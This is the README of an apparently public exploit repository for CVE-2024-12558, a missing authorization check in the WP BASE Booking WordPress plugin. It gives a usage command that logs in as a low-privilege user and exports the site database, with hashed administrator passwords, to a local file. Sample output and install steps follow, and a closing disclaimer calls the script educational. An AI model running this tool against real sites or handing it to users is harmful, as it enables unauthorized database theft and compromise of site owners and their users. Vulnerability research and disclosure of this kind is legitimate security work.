 # CVE-2024-12558-exploit

# Description
The WP BASE Booking of Appointments, Services and Events plugin for WordPress is vulnerable to unauthorized access of data due to a missing capability check on the export_db function in all versions up to, and including, 4.9.2. This makes it possible for authenticated attackers, with Subscriber-level access and above, to expose sensitive information from the database, such as the hashed administrator password.

## Usage:




```
python CVE-2024-12558.py -u http://example.com -U username -p password -o output.sql

```
### Expected Output:

```
Checking for the existence of the plugin at http://example.com/wp-content/plugins/wp-base-booking-of-appointments-services-and-events/...
Plugin found! Proceeding with further checks.
Checking version at http://example.com/wp-content/plugins/wp-base-booking-of-appointments-services-and-events/readme.txt...
Found version: 4.9.2
The site is vulnerable! Version 4.9.2 detected.
Attempting to log in...
Logged in successfully.
Sending POST request to export the database...
Database export request successful!
Database saved to output.sql

```
### Install the required packages

```
pip install requests
pip install colorama
```


### Note: 
This script is provided for educational purposes only. The author is not responsible for any damages caused by the misuse of this script.
